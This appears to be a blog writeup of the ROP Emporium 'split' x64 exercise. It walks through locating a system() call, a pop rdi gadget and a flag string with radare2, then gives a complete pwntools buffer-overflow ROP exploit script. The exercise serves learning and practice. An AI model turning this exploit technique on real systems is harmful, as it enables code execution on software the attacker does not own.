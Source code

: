 ```yaml
---
layout: post
title:  "ROP Emporium split Writeup (x64)"
date:   2024-06-01 13:15:45 -0400
categories: rop-emporium split
tags: rop-emporium split x64 writeup buffer-overflow rop
---
```

## Introduction
[ROP Emporium](https://ropemporium.com/index.html){:target="_blank"}{:rel="noopener noreferrer"}
provides a series of challenges to learn and practice
Return Oriented Programming (ROP). This is the
[second challenge](https://ropemporium.com/challenge/split.html){:target="_blank"}{:rel="noopener noreferrer"}
of eight.

> This is what a hint will look like!
{: .prompt-tip }

### Goal
According to the
[challenge page](https://ropemporium.com/challenge/split.html){:target="_blank"}{:rel="noopener noreferrer"}
our goal is to call `system` with the argument `/bin/cat flag.txt`.
This string is also present in the binary!

### x64 Calling Convention
We know from the first challenge we need to set the
instruction pointer to a function address in order to
call that function. But how do we pass arguments to
those functions?

In `x64` arguments are passed through specific registers.
The first three arguments correspond to the `rdi`, `rsi`,
and `rdx` registers respectively. 
[This x64 cheat sheet](https://ropemporium.com/challenge/split.html){:target="_blank"}{:rel="noopener noreferrer"}
can help if you want to learn more about `x64`.

## Exploit Crafting
The offset for `x64` challenges will be `40 bytes`. If
you want to know how to get this value see the
[ret2win writeup]({% post_url 2024-05-31-rop-emporium-ret2win-x64 %}){:target="_blank"}{:rel="noopener noreferrer"}

### Function Address
> Is there an address where `system()` is called?
{: .prompt-tip }

Using `radare2` we can analyze a binary by
running `aaa`. To list functions with their
addresses we can run `afl`
![ret2win-addr](/images/split/x64-addr.png)

Let's investigate `usefulFunction`. We can view
the assembly with the following commands

```
s sym.usefulFunction
V
p
```

![useful-asm](/images/split/x64-useful-asm.png)

This function seems to `call` the `system()` function
with the argument `/bin/ls`. We want to change the
argument but let's take note of the `call` address
`0x0040074b`

### Setting Arguments
> Find a gadget which sets the `rdi` register
{: .prompt-tip }
According to the
[x64 calling convention](https://ropemporium.com/challenge/split.html){:target="_blank"}{:rel="noopener noreferrer"},
a function's first argument is passed through the
`rdi` register. In order to set this value we need
to find a `pop rdi` gadget which will take a value
off of the stack and place it into `rdi`

We can search for ROP gadgets in `radare2` with the `/R`
command

```
/R pop rdi
```
![rdi-addr](/images/split/x64-rdi-addr.png)

The address of our gadget is `0x004007c3`. Once we call
this gadget, we'll need to pass the address of the
string we want to execute onto the stack.

### String Address
> The string `/bin/cat flag.txt` exists in the binary
{: .prompt-tip }
Using `radare2` again we can search for case insensitive
strings with the `/i` command. So to find the address
of `/bin/cat flag.txt` we run

```
/i /bin/cat flag.txt
```
![cat-addr](/images/split/x64-cat-addr.png)

Awesome the address of the string is `0x00601060`

## Exploit
Now we have everything we need to build the exploit
```python
#!/bin/python3
from pwn import *

# useful addresses
str_addr = 0x00601060
sys_addr = 0x0040074b
pop_rdi_addr = 0x004007c3

# create payload
payload = b'A' * 40
# set arg1 (pop rdi)
payload += p64(pop_rdi_addr)
payload += p64(str_addr)
# call sys
payload += p64(sys_addr)

# send payload + receive flag
io = process('./split')
io.recv()
io.sendline(payload)
print(io.recvline())
success(io.recvline())
```
![flag](/images/split/x64-flag.png)

## Conclusion
This challenge takes things a step further than
just calling an arbitrary function by introducting the 
ability to set arbitrary arguments for that function.
